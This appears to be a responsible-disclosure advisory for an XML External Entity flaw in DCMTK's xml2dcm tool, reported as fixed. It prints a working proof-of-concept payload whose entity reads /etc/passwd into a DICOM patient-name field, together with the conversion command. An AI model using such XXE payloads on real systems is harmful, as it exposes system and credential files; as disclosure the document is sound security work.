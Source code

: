 # XXE injection in xml2dcm utility

xml2dcm utility is vulnerable to XML External Entity (XXE) Injection. The utility doesn’t have any configuration parameters to disable DTDs (External Entities) completely. This parser allows processing and converting XML with external entities. It can be used for reading local files, which may contain sensitive data such as passwords or private user data.

## Steps to reproduce:
1) Create xml with external entity:
```
<?xml version="1.0" encoding="ISO-8859-1"?>
   <!DOCTYPE foo [ 
   <!ELEMENT foo ANY >
 <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
…
<element tag="0010,0010" vr="PN" vm="1" len="32" name="PatientName">&xxe;</element>
…
```
2) Convert xml to dcm using the xml2dcm:
$ xml2dcm xxe.xml xxe.dcm
3) The result DICOM-file will include the content of `/etc/passwd` file.

## Information
The vendor was [informed](./data/Advisory_DCMTK_xml2dcm_xxe.pdf) and the vulnerability was [fixed](http://git.dcmtk.org/?p=dcmtk.git;a=commit;h=dbe6898efea3ba1dd5c50e34d2d5ccd741ef7a18).
